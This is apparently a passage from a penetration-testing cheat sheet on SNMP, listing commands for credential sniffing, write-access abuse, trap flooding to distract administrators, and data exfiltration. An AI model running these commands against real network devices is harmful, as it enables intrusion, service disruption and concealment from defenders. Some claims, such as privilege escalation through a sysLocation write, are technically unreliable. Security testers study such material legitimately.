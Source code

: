 #### Packet Capture

*   **Tool:** \[\[Wireshark]]

    ```bash
    wireshark -i <interface> -f "tcp port 161"
    ```
* **Description:** Capture traffic and extract plaintext credentials.

### Privilege Escalation

#### Abuse of SNMP Write Access

*   **Tool:** \[\[SNMPSet]]

    ```bash
    snmpset -v <snmp_version> -c <community_string> <target_ip> .1.3.6.1.2.1.1.6.0 s "Privileged Access"
    ```
* **Description:** Escalate privileges by modifying critical device settings or configurations.

### Defense Evasion

#### Using Encrypted SNMPv3

*   **Tool:** \[\[SNMPGet]], \[\[SNMPWalk]]

    ```bash
    snmpget -v 3 -u admin -a MD5 -A authpass -x DES -X privpass -l authPriv <target_ip> .1.3.6.1.2.1.1.1.0
    ```
* **Description:** Use SNMPv3 with encryption to evade detection while interacting with network devices.

#### Hiding in SNMP Trap Storms

* **Tool:** \[\[SNMPTrap]]

```bash
for i in {1..1000}; do snmptrap -v2c -c public <manager_ip> "" .1.3.6.1.2.1.1.3.0 .1.3.6.1.4.1.8072.2.3.0.1; done
```

* **Description:** Flood the SNMP manager with traps to obscure malicious activity or distract administrators.

### Data Exfiltration

#### Exfiltrating Data via SNMP

*   **Tool:** \[\[Custom Scripts]], \[\[SNMPSet]]

    ```bash
    snmpset -v 2c -c private <target_ip> .1.3.6.1.2.1.1.8.0 s "Exfiltrated Data"
    ```
* **Description:** Covertly exfiltrate data by writing it to an SNMP-enabled device’s MIB.
